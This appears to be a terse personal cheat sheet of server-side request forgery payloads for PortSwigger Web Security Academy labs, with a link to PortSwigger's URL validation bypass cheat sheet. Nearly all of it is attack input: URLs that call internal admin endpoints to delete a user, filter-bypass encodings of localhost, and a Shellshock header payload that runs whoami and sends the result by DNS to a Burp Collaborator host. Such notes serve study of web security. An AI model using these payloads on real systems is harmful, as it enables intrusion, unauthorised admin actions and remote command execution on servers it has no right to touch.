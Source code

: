 ['https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet](URL validation bypass cheat sheet)

```
port: 6566, 8080

http://localhost/admin/delete?username=carlos

http://192.168.0.1:8080/admin

http://127.1/admin
http://127.0.0.1/

/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

shellshock: Referer header, User-Agent header 
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN

http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos

out-of-band-detection: Referer header
```

```
127.0.0.1
127.1
```  

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```  

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```  

```
017700000001
```  